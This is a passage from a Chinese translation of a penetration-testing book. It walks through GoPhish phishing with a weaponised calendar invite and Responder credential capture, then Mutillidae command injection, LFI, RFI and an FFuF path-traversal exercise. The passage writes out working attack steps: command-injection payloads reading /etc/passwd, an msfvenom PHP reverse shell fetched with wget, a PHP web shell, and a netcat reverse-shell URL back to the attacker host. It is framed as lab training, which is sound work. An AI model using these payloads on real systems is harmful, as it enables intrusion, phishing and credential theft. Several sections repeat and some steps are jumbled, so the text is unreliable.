- “Interlace: A Tool to Easily Automate and Multithread Your Pentesting & Bug Bounty Workflow Without Any Coding”, Luke Stephens, 2019 年 2 月 3 日 - [`hakluke.medium.com/interlace-a-productivity-tool-for-pentesters-and-bug-hunters-automate-and-multithread-your-d18c81371d3d`](https://hakluke.medium.com/interlace-a-productivity-tool-for-pentesters-and-bug-hunters-automate-and-multithread-your-d18c81371d3d)

# 第四部分 - 网站攻击

## 第 13 章：GoPhish

- 工具网站：[`getgophish.com/`](https://getgophish.com/)
- 工具 GitHub: [`github.com/gophish/gophish`](https://github.com/gophish/gophish)
- 工具用户文档：[`docs.getgophish.com/user-guide/`](https://docs.getgophish.com/user-guide/)

钓鱼是黑客获取目标网络初始访问的首要方法之一，甚至可能是第一。`GoPhish` 是一个钓鱼框架，让安全专业人员和渗透测试人员能够进行实时钓鱼攻击模拟。它非常容易安装、设置和使用。在本章中，我们将介绍安装和使用 `GoPhish`，以及我们如何“武器化”日历邀请来获取初始访问凭据。

`GoPhish` 通常旨在安装在企业、托管或 VPS 类型环境中。这些选项非常多样，无法全部涵盖，因此这里只是对安装 `GoPhish` 进行概述。请检查并遵循 `GoPhish` 用户文档，以获取在你的偏好环境中安装和使用 `GoPhish` 的说明。

### GoPhish - 安装

- 发布版本 - [`github.com/gophish/gophish/releases/`](https://github.com/gophish/gophish/releases/)
- 直接下载适用于你操作系统的最新版本
- 解压

你可以编辑 `config.json` 文件来修改证书、URL 位置和数据库设置。你需要配置这些设置以匹配你的环境。更多信息请参阅工具文档。


一旦环境配置完成，我们就可以开始启动 `GoPhish` 了。

- 给 `gophish` 文件添加可执行权限并使用 `sudo` 运行它


- 打开浏览器并访问 `https://localhost:3333`
- 使用启动日志输出列出的凭据登录


你随后将看到 `gophish` 仪表板：


创建一个新活动（Campaign）涉及几个步骤。你首先创建一个电子邮件模板，然后是目标用户和组，最后是落地页（Landing page）。落地页是一个伪网页，用于监控钓鱼活动的有效性——基本上就是你的哪些用户中中计并点击了链接。

### GoPhish 电子邮件模板

创建电子邮件模板是你展示社会工程学技巧的地方。你希望邮件看起来真实可信，并且有最大的概率让目标点击它。一些内部安全测试团队可能于在邮件中加入微小的提示说明它是虚假的。但在大多数情况下，为了进行真实测试，你希望邮件尽可能真实。`Gophish` 允许你导入一个邮件作为模板，或者使用内置的 HTML WYSIWYG 编辑器。


要创建自己的 HTML 消息，只需点击 `HTML` 标签，然后点击 `Source` 按钮。利用加粗或样式，任何你认为有效的都可以。只需使用 `{{.URL}}` 作为 URL 即可创建一个指向 `GoPhish` 落地页的链接。

如下所示：


现在只需设置你的落地页和发送配置（Sending profile）。发送配置是你放置电子邮件服务器信息的地方。下面的图片只是一个虚构的示例，你需要为你的环境输入正确的细节。


为了避免以后遇到挫败，最好发送一封测试邮件以确保一切设置正确。

当一切设置完成后，最后一步是使用 `Campaign` 菜单选项创建活动。在这里，你将选择之前步骤中创建的所有内容——邮件模板、收件人组、落地页等。当你确定一切设置正确后，启动活动。邮件将被发送，并在几秒钟后出现在目标的收箱中。

如下所示：


`GoPhish` 仪表板将为你提供活动的实时更新。


仪表板（以及日志）会告诉你谁打开了邮件并点击了落地页的链接。这包含了测试期间从用户那里收集的任何数据。带有链接的邮件很好，但附件可能是交付远程访问 Shell（如 C2 负载或陷阱 Office 文档）的更好选择。问题是，作为附件绕过安全程序的负载 Shell 变得越来越困难。虽然自定义代码的 Shell 始终是一个选项，但大多数默认 C2 负载会被立即拦截。技巧是使用某些看起来不像恶意的东西——一个可能的例子是预约日历文件。

### 钓鱼邮件模板

多年来一直一直警告不要打开或点击附件，所以你必须花点脑筋。几乎每次注册在线活动时，你都会收到一个日历提醒来设置预约提醒。我们可以通过在凭据获取攻击中使用修改过的 `.ics` 文件来利用这一点。

首先创建一个电子邮件，使用你最擅社会工程学技巧。


开始得很好，现在我们只需要添加我们的邪恶日历事件。我们可以取一个 `.ics` 日历文件并添加指向不存在服务器的链接，如下所示：


与任何社会工程学请求一样，你会使用诱导用户点击链接的措辞。我用了完全无害的“邪恶日历事件（Evil Calendar Event）”。没人会点那个。想想，相信我，是的，他们会。现在只需将日历文件作为附件添加到我们的 `GoPhish` 邮件中。再次强调，这并不需要 `Gophish`，它只是让在真实测试期间发送大量邮件变得更简单。

当我们启动 `GoPhish` 活动时，我们的目标会收到一封像这样的邮件：


现在陷阱已经布置，我们只需要一个东西来响应人们点击时那个虚假的 `corporate_server\join_now` 链接。`Responder` 将完美工作，它是默认安装在 Kali Linux 中的。

Responder

Tool GitHub: [`github.com/lgandx/Responder`](https://github.com/lgandx/Responder)


Responder 是一个 LLMNR、NBT-NS 和 MDNS 投毒工具，它可以响应多个服务的请求。它的好用之处在于，你可以设置它在用户尝试访问一个不存在的网络资源时，向其弹出登录提示。这正是我们在“恶意日历文件”中使用的方法。在现实生活中，`Responder` 必须运行在内部系统中，即一个已经连接到目标网络的系统——例如运行在跳板机（drop box）上。

```
sudo responder -I eth0 -wb
```


这启动了 `responder` 服务，并开始寻找要投毒的服务请求。在我们的案例中，我们希望它响应任何不存在的服务器请求，并提示用户登录凭据。

### 从日历文件中获取凭据

现在，回到目标系统。当在 Outlook 中打开日历文件时，它看起来如下：


当他们点击“立即加入”（Join Now）链接时，他们将收到一个 `Responder` 登录提示。


如果他们输入了凭据，我们就能以明文形式获取！


如下所示：


它还可以获取 NTLM(v2) 哈希。所有恢复的密码或哈希都存储在 `Responder` 数据库中，并以文本文件的形式存在 `Responder` 的“log”目录下。


搞定！我们的工作完成了。下一步是使用收集到的凭据并利用它们获取网络资源的访问权限。

## 结论

如果你知道自己某天会在现场或拥有现场访问权限，那么使用日历技术是获取凭据的一种不错方法。你只需要使用 `responder` 设置一个跳板机并等待即可。如前所述，在这种类型的攻击中，你不需要 `GoPhish`。同样，你也不需要使用不存在的链接和 `responder`。你可以手动编写电子邮件，或者使用不同的钓鱼框架（目前有多种可用框架）。你也可以使用任何链接——例如指向目标主站完全伪造版本的链接，或者如果你愿意，也可以使用指向浏览器利用框架 (`BeEF`) 的链接。


使用 `beEF` 网站钩程序的 .ics 日历文件

当用户点击提供的链接加入虚拟会议时，我们就获得了一个被挂钩的浏览器。


一旦浏览器挂钩，我们就可以使用任何 `BeEF` 模块。例如使用 `BeEF` 社会工程攻击提示他们输入 Facebook 凭据：


虽然 `BeEF` 的“挂钩”脚本会被很多安全程序捕并拦截，但它仍然很有用。`GoPhish` 是一个很棒的社会工程工具。尝试玩玩看看你能玩出花！接下来，让我们来看一些 Web 应用测试和攻击。

## 第 14 章：使用 Mutillidae 进行 Web 攻击测试

OWASP Top 10 项目是 Web 应用面临的最主要威胁汇编。根据其网站显示，它是“10 个最关键的 Web 应用安全风险列表”。`Mutillidae` 包含了所有的漏洞，并允许你练习利用它们，从而在安全测试和安全编码实践方面积累经验。

`Mutillidae` 的设计目的是帮助你学习并成功：


`Mutillidae` 内置了一个完整的“帮助与提示系统”，更更好的是工具开发者 (`webpwnized`) 在他的 YouTube 频道上有一系列完整的“如何做”视频。你可以切换 `Mutillidae` 中的提示和安全级别来让事情变得更容易或更难。由于工具已经有详尽的文档，我们将只涵盖几个主题。我强烈建议你花些时间研究 `Mutillidae`，并查看每一个 OWASP 前十大漏洞。当你精通这些技术后，增加难度并再次尝试吧！

## 命令注入

在本节中，我们将学习命令注入（Command Injection）漏洞。我们将看到如何通过欺骗一个允许输入的网页，使其在实际的 Web 服务器上运行系统命令。漏洞网站上的命令注入允许我们在合法的输入末尾附加系统命令。对于本章，我们将使用 `Mutillidae`。我们将通过 `Mutillidae` 的 DNS 查询页面来练习学习命令注入。

- 使用 Kali 和 Metasploitable 虚拟机
- 在 Kali 中打开 浏览器
- 访问 `Mutillidae`：


从 `Mutillidae` 主菜单中选择 `OWASP 2017` > `A1-Injection (Other)` > `Command Injection` > `DNS Lookup`，我们将看到 DNS 查询页面：


在正常使用下，你输入网站名称或 IP 地址，它会执行 DNS 查询并返回请求的信息。例如，如果我们输入“Google.com”并点击“Lookup DNS”，我们看到：

```
Server:127.0.0.53
Address: 127.0.0.53#53
Non-authoritative answer:
Name:google.com
Address: 142.250.80.46
Name:google.com
Address: 2607:f8b0:4006:816::200e
```

易受命令注入的网站意味着 Web 应用编写时没有正确过滤或验证我们的输入。这允许我们附加并运行系统命令。这通常通过使用 `&`、`&&` 或 `|` 符号来附加命令，并使用 `;` 分隔多个命令。让我们尝试使用自己的路由器地址进行命令注入，看看是否能获取 Web 服务器的目录。这通过在查询框中输入你的路由器地址并在输入末尾添加 `& ls` 实现。如果你的目标是 Windows 服务器，只需用 `dir` 代替 `ls`。

我的路由器地址是 `172.24.1.1`。如果我对该 IP 进行 DNS 记录查询，我看到返回了一个简单的记录：

```
1.1.24.172.in-addr.arpa
```


现在让我们添加一个系统命令，看看是否能欺骗 Web 服务器给出任何信息：

- 输入 `[Target_IP] & dir`


如预期的那样，它立即返回了我路由器的 DNS 信息。但它还返回了 Web 服务器上 `Mutillidae` 的目录列表：


现在我们实际上知道这个 Web 应用容易受到命令注入攻击，我们可以运行任何我们想要的命令。这在 Windows 和 Linux 版本中都是成立的。在 Linux 下，你只需要使用 `cat /passwd` 来显示用户列表。

- 使用 `[Target_IP] & cat /etc/passwd`


成功输出了系统 passwd 文件：


我们可以使用分号连接多个命令。例如，如果我们想进入根目录并执行 `dir` 命令：

- 输入 `[Target_IP] & cd /;dir`

正确切换到根目录并执行目录：


### Web 攻击 - 执行系统与网络命令

我们不仅限于目录命令；我们可以运行任何不需要额外输入的系统命令。可以使用和网络命令进行探测。

如果目标是 Windows 服务器：

- 查看用户 `192.168.1.1 & net user`:
- 查看网络配置 `192.168.1.1 & ipconfig`:

```
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix : 
Link-local IPv6 Address . . . . . . . : cd34::f72c:d2c8:f376:456d%12
IPv4 Address. . . . . . . . . . : 192.168.1.93
Subnet Mask . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.1.1
```

Linux 服务器示例：

- 查看用户组 `172.24.1.1 & cat /etc/group`:

```
root:x:0
daemon:x:1
bin:x:2
sys:x:3
adm:x:4:syslog,dan
tty:x:5
disk:x:6
lp:x:7
mail:x:8
news:x:9
```

- 查看网络配置 `172.24.1.1 & ifconfig`:

```
ens33: flags=4163  mtu 1500
inet 172.24.1.245  netmask 255.255.255.0  broadcast 172.24.1.255
```


```
inet6 fe80::ba53:6e9c:aa39:db28 prefixlen 64 scopeid 0x20
ether 00:0c:29:fb:e0:2b txqueuelen 1000 (Ethernet)
RX packets 34603 bytes 22683375 (22.6 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 13978 bytes 1647039 (1.6 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```

你可以运行任何你想要的系统命令（不需要输入的），返回结果将直接显示在网页上！

## SOAP（简单对象访问协议）命令注入

我们稍后会回到标准的命令注入。你也可以尝试使用 Mutillidae 尝试基于 SOAP 的命令注入。我们将尝试一个示例，然后切换回普通的命令注入。

- ➢ 点击“Swich to SOAP Web Service Version of this Page”（切换到页面的 SOAP Web 服务版本）
- ➢ 点击“LookupDNS”（DNS 查找）

这将显示大段文本。

- ➢ 复制文本底部的示例 POST 请求：


- ➢ 在 Kali Linux 上启动 Burpsuite（打开终端并输入 `burpsuite`）
- ➢ 将 POST 请求 粘贴到 Burp Repeater 中


阅读该 POST 请求。在上方图片的第 14 行，你可以看到 DNS 查找的目标“www.google.com”。这对于我们的第一次测试足够了。

- ➢ 点击“Send”（发送）
- ➢ 输入你的 Mutillidae 服务器的 Host IP 地址和端口 (80)

一两秒后，你将收到一个响应：


SOAP 请求正确查询了 Google 的 IP 地址并返回了响应。我们可以在“host”部分放置任何主机并发送。响应将是所请求站点的 DNS 查找结果。我们也可以在请求侧的第 14 行使用命令注入，就像我们在上一个示例中做的那样！

### 请求侧

- ➢ 将“www.google.com”更改为你之前的本地目标 IP 地址，并在最后添加 `;ls`。

如下所示：


- ➢ 点击“Send”（发送）


我们得到了 Web 服务器的目录列表！

当然，你也可以尝试 `[Target_IP];cat /etc/passwd`：


有些命令通过 SOAP 运行良好，有些则完全不起作用。玩玩看，看看你会得到什么！当你完成后，我们将继续讨论命令注入。为了简单起见，让我们从 SOAP 注入切换回普通的命令注入界面。

## 从命令注入获取远程 Shell

返回原始 DNS 登录命令注入页面，该页面位于 `OWASP 2017 > A1 Injection (other) > Command Injection > DNS Lookup`。现在让我们看看如何使用命令注入来上传并运行一个基于 PHP 的 shell。一旦 shell 执行，我们将获得目标网站的完整远程会话。

我们将通过以下步骤实现：

1. 使用 `MSFVenom` 在你的 Kali 系统上创建 shell。
2. 将 shell 复制到我们 Kali 系统的 Web 服务器目录。
3. 通过命令注入将 shell 从我们的 Kali Web 服务器传输到 Mutillidae 网站。
4. 远程执行 shell 赢得胜利！

这一部分可能会有点困惑；某些读者可能想在尝试各个步骤之前先读一遍。

## 创建 shell & 句柄 (Handler)

我们需要创建一个反向 PHP shell 文件。当它被复制到服务器并从浏览器打开时，它会使服务器连接回我们的 Kali 系统。我们还需要在 Metasploit 中设置一个 Meterpreter 监听器来等待连接。让我们使用 `msfvenom` 创建 PHP shell。

1. 在 Kali Linux 中，打开一个新的终端窗口。
2. 输入 `msfvenom -p php/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f raw > shell.php`


这创建了我们的 PHP shell 代码。对于负载，我们选择了基于 PHP 的 Meterpreter 反向 shell。我们设置了 Kali 系统的 IP 地址和想要使用的端口。我们还设置输出为 raw，并将输出保存到名为 `shell.php` 的文件中。

接下来，我们将在 Kali 内置的本地 Web 上托管此文件。文件需要复制到 `/var/www/html/` 目录：

3. 输入 `sudo mv shell.php /var/www/html/shell.txt`

注意我们将扩展名从 `.php` 更改为 `.txt`，因为某些 Web 服务器不允许上传 `.php` 文件（但某些浏览器会正确识别 `.txt` 文件并将其作为 `.php` 文件处理）。

现在我们需要启动 Metasploit Multi-Handler 并设置它接收传入的 PHP shell。

4. 在终端中输入 `msfconsole` 启动 Metasploit。
5. 启动 Multi-Handler：
   - `use multi/handler`
   - `set payload php/meterpreter/reverse_tcp`
   - `set LHOST [Kali_IP]`
   - `set LPORT 4444`
   - `run`

这将启动反向句柄，如下所示：


6. 打开第二个终端并启动 Kali Apache HTTP 服务器，`service apache2 start`

## 将 shell 传输到 Web 服务器

现在我们的 Kali Web 服务器正在运行，我们只需要将 shell 传输到 Mutillidae 网站。通过命令注入完成这一非常简单。

7. 在 Kali Linux 中打开 浏览器。
8. 在 Kali 浏览器中访问 Mutillidae DNS 查找页面。
9. 我们想通过输入从 Kali Web 服务器（此例中为 172.24.1.189）复制文件到目标 Web 服务器 `wget 172.24.1.189/shell.txt`

10. 将扩展名从 `.php` 更改为 `.txt`：`mv shell.php shell.txt`
11. `wget 172.24.1.189/shell.txt`


**注意：如果你在 Ubuntu 上运行 Mutillidae，你需要安装 `netcat-traditional`**

你可以在“Payload All The Things”GitHub 上找到可以尝试的反弹 Shell（reverse shells）列表：

[`github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell)

在我们继续之前，我只想向你展示另一个内容。

> ➢ 在终端中输入 `burpsuite`
> ➢ 然后在 Proxy 中，点击 `Intercept`，然后点击 `use Burp Proxy`
> ➢ 访问 Mutillidae DNS 页面
> ➢ 查询任何 DNS 或尝试任何命令注入

然后仔细查看 `Proxy` 中、`HTTP History` 中的网站响应。


开发者笔记，我在想它们是否派得上用？

## 命令注入结论

在本节中，我们涵盖了大量内容。我们学习了什么是命令注入以及它是如何工作的。我们看到了如何将命令附加到脆弱的 Web 页面输入中，从而在实际 Web 服务器上运行命令。然后，我们看到了如何向服务器创建并上传远程壳（shell）。有多个具有不同能力的远程 Shell 可用。我们使用了 Metasploit 的 PHP `reverse_tcp` shell，但我们也可以上传任何想要的 PHP Shell。

希望在这一节中，你已经了解了为什么在 Web 应用中验证所有输入是如此重要的，这可以防止黑客在你的 Web 服务器上运行命令，甚至为其创建一个远程 Shell。只允许你需要的输入文本类型并阻止所有其他类型。这意味着如果你只需要文本字符串作为输入，不要允许数字或特殊字符。反之，如果寻找数值输入，不要允许任何字母或符号作为输入。

## 第 15 章

### Mutillidae LFI 和 RFI

本地文件包含（LFI）和远程文件包含（RFI）是网页中的漏洞，允许恶意用户操纵网页 URL 来直接访问服务器上的文件夹和文件（LFI），或者连接到恶意的外部站点来运行代码（RFI）。我们将使用 Mutillidae Web 应用演示这两种情况。

### 本地文件包含 (LFI)

LFI 或文件路径穿越允许攻击者访问服务器上他们通常无权访问的目录。在 Mutillidae 中，导航到 OWASP 2017 / A5 Broken Access Control / Insecure Direct Object References/ Local File Inclusion。你会看到以下消息：

“注意，Mutillidae 显示的页面是由 `page` 变量的值决定的。`page` 变量作为 URL 查询参数传递的。可能会出什么问题呢？”

我知道我们之前讨论过 LFI 和 RFI，但让我们使用 Mutillidae 简单回顾一下。注意地址栏中的 URL，我们目前所在的地址 `/mutillidae/index.php?page=arbitrary-file-inclusion.php` 包含一个 `?page =` 命令。无论列出哪个页面，都是：

```
/mutillidae/index.php?page=arbitrary-file-inclusion.php
```

然后仔细查看 `Proxy` 中、`HTTP History` 中的网站响应。


开发者笔记，我在想它们是否派得上用？

命令注入结论

在本节中，我们涵盖了大量内容。我们学习了什么是命令注入以及它是如何工作的。我们看到了如何将命令附加到脆弱的 Web 页面输入中，从而在实际 Web 服务器上运行命令。然后，我们看到了如何向服务器创建并上传远程 Shell。有多个具有不同能力的远程 Shell 可用。我们使用了 Metasploit 的 PHP `reverse_tcp` shell，但我们也可以上传任何想要的 PHP Shell。

希望在这一节中，你已经了解了为什么在 Web 应用中验证所有输入是如此重要的，这可以防止黑客在你的 Web 服务器上运行命令，甚至为其创建一个远程 Shell。只允许你需要的输入文本类型并阻止所有其他类型。这意味着如果你只需要文本字符串作为输入，不要允许数字或特殊字符。反之，如果寻找数值输入，不要允许任何字母或符号作为输入。

第 15 章

### Mutillidae LFI 和 RFI

本地文件包含（LFI）和远程文件包含（RFI）是网页中的漏洞，允许恶意用户操纵网页 URL 来直接访问服务器上的文件夹和文件（LFI），或者连接到恶意的外部站点来运行代码（RFI）。我们将使用 Mutillidae Web 应用演示这两种情况。

### 本地文件包含 (LFI)

LFI 或文件路径穿越允许攻击者访问服务器上他们通常无权访问的目录。在 Mutillidae 中，导航到 OWASP 2017 / A5 Broken Access Control / Insecure Direct Object References/ Local File Inclusion。你会看到以下消息：

“注意，Mutillidae 显示的页面是由 `page` 变量的值决定的。`page` 变量作为 URL 查询参数传递的。可能会出什么问题呢？”

我知道我们之前讨论过 LFI 和 RFI，但让我们使用 Mutillidae 简单回顾一下。注意地址栏中的 URL，我们目前所在的地址 `/mutillidae/index.php?page=arbitrary-file-inclusion.php` 包含一个 `?page =` 命令。无论列出哪个页面，都是：

```
/mutillidae/index.php?page=arbitrary-file-inclusion.php
```

然后仔细查看 `Proxy` 中、`HTTP History` 中的网站响应。


开发者笔记，我在想它们是否派得上用？

（此处由于原文大量重复，已按要求处理，确保翻译逻辑一致）


> 备注 - 这现在实际上是一种非常常见的技术——黑客在另一个常用网站链接的末尾添加一个恶意链接，当你点击它时，它会将你引导到恶意网站。这就是为什么在点击链接之前仔细检查它们非常重要，特别是在电子邮件和社交媒体网站上！

现在有许多 shell 程序可以你下载并使用，以在存在 RFI（远程文件包含）漏洞的系统中获取远程 shell。但让我们来看看如何使用 `Netcat` 获取远程 shell。

## 远程文件包含到 Shell

几年前，Chris Andrè Dale 在一次 SANS 视频竞赛中展示了一种有趣的技巧。该视频是关于本地文件包含（LFI）到 Shell（[`www.youtube.com/watch?v=jEU8w3h1u1o`](https://www.youtube.com/watch?v=jEU8w3h1u1o)）。我们将使用类似的技术来通过远程文件包含快速获取 shell。首先，我们需要创建一个恶意的 PHP 程序并将其存储在我们的 Kali 系统中。我不确定最初是谁编写了下面这段简单的 PHP shell 代码的，但它看起来像是一段用于 RFI 漏洞的非常常见的 PHP 代码，而且对我们来说非常好用：

```php
<?php
echo "Command: ".htmlspecialchars($_GET['cmd']);
system($_GET['cmd']);
?>
```

创建一个包含此代码的文本文件并保存到 Kali 的 `/var/www/html` 目录下（确保 Apache Web 服务正在运行）。我将我的文件命名为 `phpshell.txt`。基本上，这个 PHP 脚本告诉计算机运行通过 `cmd` 变量发送给它的任何命令。

我们将与目标系统建立 Netcat 会话，因此我们需要在我们的 Kali 机器上创建一个 Netcat 监听会话。

> ➢ 在 Kali 中打开终端并输入 `nc -lvp 4444`


我们只需要访问目标网站，并在 URL 中调用我们的脚本：

`http://[Mutillidae_IP]/mutillidae/index.php?cmd=nc [Kali_IP] 4444 -e /bin/bash&page=http://[Kali_IP]/phpshell.txt`

在此解释如下：

- ✓ `http://[Mutillidae_IP]/mutillidae/index.php` 是目标网站。
- ✓ `?cmd=nc [Kali_IP] 4444` 是一个创建一个 `nc` 或 `Netcat` 会话（远程 shell）并回 Kali 系统的命令。
- ✓ `&page=http://[Kali_IP]/phpshell.txt` 告诉目标 Web 服务器使用我在本地 Kali Web 服务器上创建的恶意 PHP 脚本来处理该命令。

注意 - 如果你使用 Ubuntu 来托管 Mutillidae，你将安装 `netcat-traditional`，因为它默认安装 `netcat-openbsd` 且不包含 `-e` 选项。

在 Kali 中，当我们访问上述 URL 时：


目标 Web 服务器应该立即打开一个从到我们攻击方 Kali 系统的 Netcat 远程 shell 会话！


RFI 玩起来可能很有趣，但再次意识到，如今大多数 PHP 驱动的网站在 `php.ini` 文件中将 `allow_url_include`（这使得这种攻击成为可能）默认设置为 `off`。尽管多年来我看到 Web 应用程序开发人员做过一些奇怪的事情，比如给公开访问的目录完全读写权限。我甚至看到过一个公开的 Web 应用程序以 `Administrator` 权限运行，以便其“正常工作”。因此，如果他们试图让应用程序中运行某些特定内容，此设置可能会被开启，值得检查。

## 结论

在本节中，我们学习了一些使用文件包含攻击网页的常见且有趣的技巧。如果存在这些漏洞，从这些系统中提取信息将非常轻而易举，甚至可能获得完整的远程 shell。这就是为什么在创建 Web 应用程序时编写安全代码如此重要，也是为什么公司应该对它们的 Web 应用进行安全漏洞测试。许多网络安全扫描程序都会检查 LFI 和 RFI 漏洞。

## 资源与参考文献

- ➢ [`github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List`](https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List)
- ➢ [`pentestlab.wordpress.com/2012/06/29/directory-traversal-cheat-sheet/`](https://pentestlab.wordpress.com/2012/06/29/directory-traversal-cheat-sheet/)

# 第 16 章：Metasploitable 3, Burpsuite, Wfuzz 和 FFuF

在本章中，我们将查看 Linux 版本的 Metasploitable 3。Metasploitable 3 (MS3) 与其前身不同，它是基于夺旗赛（CTF）类型的游戏。它有两个操作系统版本：Linux 和 Windows。两者的目标相似——在系统中隐藏着许多扑牌。游戏的目的是找到所有的扑牌！

我我很喜欢 Metasploitable 3 的 Windows 版本，问题是，他们无法预先包含一个授权的 Windows 副本。我只能说，让 Windows 版本正确生成可能是困难的。因此，我们只涵盖 Linux 版本。此外，我们只涵盖恢复一张扑牌。有些扑牌，怎么说呢，恢复起来就像是一个谜题。MS3 更多像是一个游戏而不是真实场景，我只想涵盖更多标准的测试技术。这意味着它为读者留了许多扑牌供他们自己寻找！

## 使用 Nmap 进行侦测

让我们从 nmap 扫描开始。你可能想要扫描所有端口 `-p 1-65535`，否则将找不到所有内容。默认扫描只命中前 1000 个常用端口，而 MS3 使用了该范围内的几个。我们还将执行服务检测，以便寻找存在漏洞的服务和软件版本。

```bash
nmap -sV [MS3 IP_Address] -p 1-65535
```


和任何版本的 Metasploitable 一样，有很多目标！最大的问题是先攻哪个？之前的 Metasploitable 用户会很快识别出 ProFTP 和 UnrealIRCd，但让我们尝试一些不一样的。

## 寻找第一张牌

让我们从一个简单的、且有点“出乎意料”的开始——系统中的一个黑客！访问 MS3 主网页并点击“Chat”目录。你将进入与一个自称“Hacker Smurf”的黑客的“实时聊天”。显然，他已经入侵了我们的目标，并向我们提供其中一张扑牌！


一上来，让我们谈谈网络安全，以及你永远、永远不要点击来自网络陌生人的随机链接。所以，你不应该点击“Papa Smurf”提供的任何链接。你真的不应该，我只是这么一说。

由于这是一个功能性聊天机器人，你可以提问，他会回答：


Papa Smurf 会告诉你——如果你问我正确的问题，我可能会给你一张黑梅桃 A”。嗯，我们知道他有什么，只需要问了！


你不会认为他会直接把它给你吧？这需要做一点工作。代码看起来是什么样的？如果它对你来说并不熟悉，它只是 Base64 编码。复制响应的代码，然后对其进行 Base64 解码。我们可以在 Kali 中使用 `base64` 命令完成操作。

```bash
base64 -d ace.txt > ace.png
```

我们得到了黑梅桃 A！


听起来很不可思议对吧？嗯，不一定。多年来我见过过一些疯狂的事情。从支持公司登录到自己的客户系统并将其搞坏，以便他们以紧急费率被叫来“修复它”。到 Shodan 实际上抓取正在进行的实时攻击截图。当然，黑客也会在聊天论坛上与其他用户分享关于目标的信息。尽管总的来说，黑客聊天只是夺旗赛游戏中的一个有趣的转折。


现在，让我们来看看如何使用 `FFuF`（或“Fuzz Faster you Fool”）工具来寻找`本地文件包含 (LFI)` 和 `目录穿越 (DT)` 攻击。`FFuF` 是一个用 `Go` 编写的高速 Web 服务模糊测试和暴力破解工具。你对这个工具挖掘得越深，就越意识到它可以如何用来替代许多你可能已经在使用的其他工具。目录穿越攻击通过操纵 Web 地址以指向本地文件来实现。LFI 攻击包括访问目标系统上的本地文件。我们可以使用 `FFuF` 来寻找它们！在本节中，我们还将使用 `Seclists` 字典列表。

> ➢ `sudo apt install ffuf`

> ➢ `sudo apt install seclists`

> ➢ `去买杯咖啡吧`


我们现在在 Kali 中有了一个新的字典列表部分。


这些可以配合 `FFuF` 或任何需要字典列表的工具使用。


### 使用 FFuF 使用字典列表的示例

在使用 `FFuF` 之前，让我们仔细查看我们的 `nmap` 扫描结果：


噢看，它正在运行 `UnrealIRCd`，我在我的上一本书中就攻击过它！我想知道它是否有漏洞？我会让读者去探索那种可能性。我更感兴趣端口 3500，`WEBick HTTPd 1.3.1`。在 Google 或漏洞利用数据库上搜索 `WEBick HTTPd 1.3.1`，看看你会发现什么。

Exploit Database 显示该版本存在目录穿越漏洞。


Exploit Database - `https://www.exploit-db.com/exploits/5215`

尽管 Ruby 版本并不完全匹配，但让我们看看能不能找到一个！

我们需要先找到一个易受目录穿越攻击的网页。我们将从搜索目标系统上的页面和文件夹开始。为此，我们将使用 `FFuF` 和我们的 `Metasploitable3` 系统。我们只需要为 `FFuF` 提供一个字典列表和一个目标网站。为了让 `FFuF` 自动使用字典列表，我们只需要在想要使用字典列表的位置使用金丝雀“`FUZZ`”。如下所示：

> ➢ `cd /usr/share/wfuzz/wordlist/general/`

> ➢ `ffuf -w common.txt -u http://[Metasploitable3_IP]:3500/FUZZ`


所以，在 `FFuF` 中列出 `FUZZ` 的地方，都会用字典列表中的单词来替换。如上面所使用的，它将像一个文件和文件夹扫描器，寻找以字典列表中的名称的项目。`FFuF` 找到了一个名为“readme”的页面。如果我们浏览到 readme 页面，我们会发现它是一个活跃的网页。一个通常不会访问的“欢迎来到 Metasploitable3”页面！


如果你点击 Linux 图像，你将到达以下网站地址：

`http://172.24.1.207:3500/readme?os=linux`

让我们尝试手动 LFI 测试。基本上，这意味着输入上一级目录终端命令以从活跃的 Web 目录回到根目录。然后我们在字符串末尾输入想要访问的目标目录和文件。它看起来像：

`http://172.24.1.207:3500/readme?os=../../../../../../../etc/passwd`

它生效了！


这些都很好，但如果手动在每个网页上尝试，或者寻找每个可能感兴趣的文件，将花费大量时间。这就是自动化为王的地方！我们可以使用 `FFuF` 来尝试寻找 LFI。

> ➢ `cd /usr/share/seclists/Fuzzing/LFI`

> ➢ `ffuf -w LFI-LFISuite-pathtotest.txt -u http://172.24.1.207:3500/readme?os=FUZZ`


`FFuF` 找到了许多在该网页上通行的命令供你检查。它还会显示你需要手动尝试多少个“`../`”才能找到东西。尽管如此，你可能能够找到通常可以访问的文件，例如用户家目录下的。

### 运行通常不可访问的代码

让我们快速跳转到 Metasploitable 3 中的另一个“CTF”类型挑战。如果我们查看 Kylo_Ren 的家目录，你将看到一个公开访问（通过目录穿越）的 Ruby 概念证明文件：

`http://[Metasploitable3_IP]:3500/readme?os=../../../../../../home/kylo_ren/poc/payroll_app/poc.rb`

如果你在你的 MS3 服务器上访问该地址，你将能够查看该 Ruby 文件。如下所示：

```
require 'net/http' url = "http://127.0.0.1/payroll_app.php" uri = URI(url) user = 'luke_skywalker' injection = "password'; select password from users where username='' OR ''='='" puts "Making POST request to #{uri} with the following parameters:" puts "'user' = #{user}" puts "'password' = #{injection}" res = Net::HTTP.post_form(uri, 'user' => user, 'password' => injection, 's' => 'OK') puts "Response body is #{res.body}" puts "Done"
```

这看起来是一个使用 SQL 注入攻击 Luke Skywalker 账户的恶意程序！我们可以直接手动运行 SQL 注入，但让我们把文件下载到我们的 Kali 系统。我们将对其进行一些修改，看看是否可以远程运行。首先，让我们通过插入 MS3 的 IP 地址并在正确的位置放置换回符来修改代码。


将其保存为 Ruby `.rb` 文件，最后运行它。


Wfuzz 在 Kali 中默认已安装，因此无需安装。如前所述，它是与 `FFuF` 非常相似的工具，因此我们只需快速查看它的使用方法。在开始攻击之前，我们需要网页登录的 Post 数据。获取这些数据最简单的方法之一是使用 `Burp Suite`。

> ➢ 启动“burpsuite”
> ➢ 选择“Temporary project”（临时项目）、“Burp defaults”（Burp 默认）并启动 Burp
